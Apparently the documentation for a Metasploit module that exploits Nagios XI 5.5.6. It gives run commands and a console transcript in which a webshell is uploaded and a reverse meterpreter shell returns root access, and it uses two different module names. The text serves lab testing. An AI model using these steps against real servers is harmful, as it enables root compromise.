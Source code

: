 # Vulnerable Application

Nagios XI 5.5.6 Root Remote Code Execution

The exploit works as follows:

- A local HTTPS server is setup. When it is reached, this server responds with a payload.
- By crafting a malicious request, we make the target host send a request to our HTTPS server. Therefore, the local HTTPS server must be reachable from outside your private network (except if the Nagios server is in the same network as yours obviously), this is what the RSRVHOST and RSRVPORT options are for. The malicious request allows for file upload. A PHP webshell and a meterpreter executable are uploaded.
- A command is executed thanks to the webshell. This command elevates privileges and run the meterpreter executable, giving us a meterpreter session.

# Creating A Testing Environment

- Install a Ubuntu Linux LTS (I used 18.04 LTS for my tests) in a VM.
- Download Nagios XI 5.5.6 from the official website (https://www.nagios.com/downloads/nagios-xi/older-releases/).
- Follow the official instructions to install it on your Ubuntu VM (https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf).

# Verification Steps

1. `use exploit/linux/http/nagios_xi_root_rce`
2. `set RHOSTS [IP]`
3. `set RSRVHOST [IP]`
4. `exploit`

A meterpreter session should have been opened successfully and you should be root

# Options

## RSRVHOST

IP at which your local HTTPS can be reached. Most of the time it will be a public IP (e.g. your router IP if you have port forwarding).

## RSRVPORT

Port that will forward to your local HTTPS server.

## SRVHOST

IP of your local HTTPS server (must be a local IP).

## SRVPORT

Port to listen to for your local HTTPS server.

# Scenarios

## Nagios 5.5.6 on Ubuntu 18.04 LTS

```
msf5 exploit(linux/http/nagios_xi_magpie_debug) > show options

Module options (exploit/linux/http/nagios_xi_magpie_debug):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  5                no        Number of seconds the web server will wait before termination
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.135.129   yes       The target address range or CIDR identifier
   RPORT      443              yes       The target port (TCP)
   RSRVHOST   172.16.135.1     yes       A public IP at which your host can be reached (e.g. your router IP)
   RSRVPORT   8080             yes       The port that will forward to the local HTTPS server
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.135.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nagios XI 5.5.6


msf5 exploit(linux/http/nagios_xi_magpie_debug) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.135.1:4444 
msf5 exploit(linux/http/nagios_xi_magpie_debug) > [*] Using URL: https://0.0.0.0:8080/ixFonv2
[*] Local IP: https://192.168.0.21:8080/ixFonv2
[*] Server started.
[*] nZOnJhGnMb.php uploaded with success!
[*] Using URL: https://0.0.0.0:8080/mTwEwHtAuz0V
[*] Local IP: https://192.168.0.21:8080/mTwEwHtAuz0V
[*] Server started.
[*] SQmBobwBzw uploaded with success!
[*] Sending stage (985320 bytes) to 172.16.135.129
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.129:33090) at 2019-06-25 16:13:01 -0500
[+] Deleted /usr/local/nagvis/share/nZOnJhGnMb.php
[+] Deleted /usr/local/nagvis/share/SQmBobwBzw
[!] This exploit may require manual cleanup of '/var/tmp/mtrhbwFZHa.nse' on the target
[*] Server stopped.

msf5 exploit(linux/http/nagios_xi_magpie_debug) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 172.16.135.129
OS           : Ubuntu 18.04 (Linux 4.18.0-15-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```
